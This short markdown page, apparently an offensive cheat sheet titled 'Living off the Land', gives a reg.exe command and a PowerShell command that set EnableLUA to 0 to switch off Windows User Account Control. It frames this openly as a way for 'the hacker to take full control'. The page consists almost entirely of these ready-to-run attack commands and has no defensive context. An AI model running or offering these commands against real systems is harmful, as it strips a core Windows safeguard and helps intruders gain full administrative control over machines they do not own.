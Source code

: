 # Living off the Land

## 01 - Command Prompt

### 1.1 - Disable Admin Restrictions

Disabling UAC that allows the hacker to take full control.

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0x00 /f
```

## 02 - PowerShell

### 2.1 - Disable Admin Restrictions

Disabling UAC that allows the hacker to take full control.

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA -Type DWord -Value 0
```